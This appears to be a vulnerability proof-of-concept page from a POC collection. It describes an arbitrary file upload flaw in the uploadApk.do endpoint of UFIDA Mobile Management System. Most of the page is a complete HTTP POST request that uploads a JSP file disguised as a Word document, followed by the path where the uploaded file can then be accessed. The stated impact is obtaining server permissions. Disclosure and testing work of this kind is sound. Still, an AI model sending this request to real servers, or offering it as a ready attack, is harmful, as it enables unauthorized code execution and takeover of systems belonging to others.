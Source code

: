 # UFIDA Mobile Management System uploadApk.do any file upload vulnerability

## Vulnerability Description

UFIDA Mobile Management System uploadApk.do interface has a vulnerability to upload any file, and an attacker can obtain server permissions through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">UFIDA Mobile Management System</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1690733969075-570bd9ef-782e-45d7-acf7-b190f55e893b.png)

Verify POC

```http
POST /maportal/appmanager/uploadApk.do?pk_obj= HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvLTG6zlX0gZ8LzO3
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cookie: JSESSIONID=4ABE9DB29CA45044BE1BECDA0A25A091.server
Connection: close

------WebKitFormBoundaryvLTG6zlX0gZ8LzO3
Content-Disposition: form-data; name="downloadpath"; filename="a.jsp"
Content-Type: application/msword

hello
------WebKitFormBoundaryvLTG6zlX0gZ8LzO3--
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1690734721298-07fdce57-e0e9-4130-8bea-9a5e4aebb19b.png)

```http
/maupload/apk/a.jsp
```